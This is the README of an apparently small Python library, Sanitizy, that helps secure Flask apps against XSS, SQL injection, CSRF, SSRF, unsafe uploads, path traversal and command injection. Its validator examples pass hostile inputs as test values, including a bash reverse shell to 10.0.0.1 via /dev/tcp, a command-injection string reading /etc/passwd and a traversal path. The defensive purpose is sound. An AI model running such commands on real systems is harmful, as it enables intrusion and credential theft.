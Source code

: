 # Sanitizy
This is a simple and very light weight python package to help securing python web applications in general especially Flask apps since they lack security !!

# Usage:

<h3> XSS:</h3>
<h4> Escape some value:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">from sanitizy import *
<br>XSS.escape('&lt;h1&gt;')# produces: '&#x26;lt;h1&#x26;gt;'  </pre></div>
<h4> Escape all Flask's paramaters GET:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">XSS.escape_args(request)#produces a dict with escaped values  </pre></div>
<h4> Escape all Flask's paramaters POST:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">XSS.escape_form(request)#produces a dict with escaped values </pre></div>

<h3> SQL-Injection:</h3>
<h4> Escape some value:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">from sanitizy import *
<br>SQLI.escape("' or 1=1 or '")# produces: "\' or 1=1 or \'"  </pre></div>
<h4> Escape all Flask's paramaters GET:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">SQLI.escape_args(request)#produces a dict with escaped values </pre></div>
<h4> Escape all Flask's paramaters POST:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">SQLI.escape_form(request)#produces a dict with escaped values </pre></div>

<h3> CSRF:</h3>
<h4> Check if the request is coming from the application itself or not:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">CSRF.validate("http://www.google.com",["www.google.com","www.bing.com"])#takes the referer header value and a list of allowed domains, then returns 'True' if it's safe and 'False' if not  </pre></div>

<h4> Check if the request is coming from the Falsk application itself or not:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">CSRF.validate_flask(request)#returns 'True' if it's safe and 'False' if not  </pre></div>

<h3> SSRF:</h3>
<h4> Validate if the url can lead to a SSRF:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">SSRF.validate("http://localhost:22",url=True)#returns 'True' if it's safe and 'False' if not  </pre></div>
<h4> Validate if the domain can lead to a SSRF:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">SSRF.validate("localhost:22",url=False)#returns 'True' if it's safe and 'False' if not  </pre></div>


<h3> File Upload:</h3>
<h4> Check if the file is safe or not:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FILE_UPLOAD.check_file(request.files['file'],allowed_extensions=['png','jpg','jpeg','gif','pdf'],allowed_mimetypes=["application/pdf","application/x-pdf","image/png","image/jpg","image/jpeg"])#returns 'True' if it's safe and 'False' if not  </pre></div>
<h4> Save files securely:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FILE_UPLOAD.save_file(request.files['file'],path="uploads/")#it will returns the path to the uploaded file</pre></div>

<h3> Path Traversal:</h3>
<h4> Check if the file is safe to open/download or not:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">PATH_TRAVERSAL.check("../../../../../../etc/passwd")#returns 'True' if it's safe and 'False' if not  </pre></div>

<h3> RCE (Remote Code/Command Execution):</h3>
<h4> Check value is safe to pass to a command or not:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">RCE.command("ls -a ;cat /etc/passwd ")#returns 'True' if it's safe and 'False' if not  </pre></div>
<h4> Check value is safe to pass to an "eval" function or not:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">RCE.eval("__import__('os').system('bash -i >& /dev/tcp/10.0.0.1/8080 0>&1")#returns 'True' if it's safe and 'False' if not  </pre></div>

<h3> Validate User Inputs:</h3>
<h4> Check value contains alphabets only:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FORM_INPUTS.alphabet("ala bouali",length=(1,50))#returns 'True' if it's correct and 'False' if not  </pre></div>

<h4> Check if value contains numbers only:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FORM_INPUTS.numeric("233 21 4",length=(1,15))#returns 'True' if it's correct and 'False' if not  </pre></div>

<h4> Check if value contains alphabets only:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FORM_INPUTS.alphabet("ala bouali",length=(1,50))#returns 'True' if it's correct and 'False' if not  </pre></div>

<h4> Check if value is alphanumeric:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FORM_INPUTS.alphanumeric(" ala bOuali12 56",length=(1,50))#returns 'True' if it's correct and 'False' if not  </pre></div>

<h4> Check if value is an Email:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FORM_INPUTS.email("alabouali@gmail.com",length=(6,15))#returns 'True' if it's correct and 'False' if not  </pre></div>

<h4> Check if value is a Phone Number:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FORM_INPUTS.phone_number("+123456789",length=(6,15))#returns 'True' if it's correct and 'False' if not  </pre></div>

<h4> Check if value is a long enough Password:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FORM_INPUTS.password("fvccabah$vhj",length=(8,15))#returns 'True' if it's correct and 'False' if not  </pre></div>

<h4> Check if 2 Passwords match and if they are long enough:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FORM_INPUTS.passwords_match("fvccabah$vhj","fvccabah$234",length=(8,15))#returns 'True' if it's correct and 'False' if not  </pre></div>

<h4> Check if value matches a specific Regex:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FORM_INPUTS.regex_match("alabouali@gmail.com",r'\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Z|a-z]{2,}\b',length=(6,15))#returns 'True' if it's correct and 'False' if not  </pre></div>
